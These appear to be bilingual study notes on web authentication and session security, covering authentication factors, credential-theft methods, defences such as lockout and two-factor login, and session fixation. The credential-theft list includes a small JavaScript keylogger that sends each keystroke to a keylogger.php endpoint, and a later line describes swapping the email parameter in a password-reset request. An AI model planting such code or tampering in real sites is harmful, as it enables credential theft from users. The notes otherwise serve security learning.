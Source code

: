 something that user has:
bank user ATM card and PINS
legal system uses signatures
something that user is: fingerprint,voice
pllices use fingerprints and dna
biometric factor
fingerprints
retina scan
facial recognition
voice matching

###  credential theft
- [x] social enginner guess
- [x] brute-force
- [x] keylogging
```
ducument.onkeydown = (e)=> {
  xhr = new XMLHttpRequest()
  // &fnof;(method,url,?async, ?username, ?password)
  xhr.open('POST', 'http://192.168.130/keylogger.php',true)
  xhr.setRequestHeader("Content-Type","application/x-www-urlencoded")
  xhr.send("key=" + String.fromCharCode(e.key))
}
```
- [x] phishing
- [x] database theft

完整性和篡改校验
ocr识别
验证码(滑块)技术
登录行为限制(连续5次错误登录,账号锁定或IP地址锁定)
双因子认证（what you know) & (what you have)
忘记密码，注册时（预留的手机号或邮箱）
请求拦截篡改放在查询参数中邮箱地址，将email参数改成自己的

cookie和会话检测（retrylogin=0;登录尝试失败,递增该值，达到某个上限，拒绝再次处理登录）

多阶段登录存在的安全风险与攻防
忘记密码的攻击措施和防御手段

## 会话管理漏洞
由于http的无状态,为了维持同一用户不同请求的状态，派发一个唯一标识用户的令牌（seesionID, token)是否与服务端存储的一致
html与xml
xml被设计为传输和存储数据
html被设计为显示数据)

Session Fixation attack
session/credential prediction attack
session injection

会话管理漏洞防御
软硬session
